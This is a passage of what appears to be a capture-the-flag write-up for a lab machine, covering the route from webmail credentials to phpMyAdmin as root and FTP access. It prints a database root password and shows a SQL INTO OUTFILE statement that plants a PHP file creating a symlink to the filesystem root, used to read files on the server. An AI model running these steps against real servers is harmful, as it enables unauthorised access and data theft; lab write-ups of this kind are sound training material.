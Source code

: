 ---------------

### SquirelMail (/webmail/src/index.php)

Now that we have got an email and a password from an user of the forum, we tried to login with those on the webmail page and again it worked like a charm ! 

We then found an interesting mail concerning database access that gave us those credentials :
```
user: root 
password: Fg-'kKXBj87E:aJ$
```
We can then try to connect to phpmyadmin using those.

---------------

### PhpMyAdmin (/phpmyadmin)

Connect as root on phpmyadmin.

---------------

### suExec
Apache version 2.2.22 can be vulnerable to `suExec` with a bad configuration followinf this [example](https://www.exploit-db.com/exploits/27397). For this we need to create a file:     
We can use the SQL console on phpmyadmin to write a file into `/forum/templates_c`.

We will used this php script to read remote files with the same permissions as the webserver:
```php
<?php
        system("ln -sf / test99.php");
        symlink("/", "test99.php");
?>
```

We then injected it using this script on the phpmyadmin sql console:
```sql
SELECT "<?php system('ln -sf / test99.php');symlink('/', 'test99.php'); ?>"
into outfile "/var/www/forum/templates_c/test99.php";
```

Navigate to `https://BornToSecHackMe/forum/templates_c/test99.php/home/LOOKATME/passwd`.

You whould now connect to `ftp` as `lmezard`.


## FTP server

Connect to the FTP server with the previous credentials.    

We now have access to all lmezard's files.


# Privileges escalation
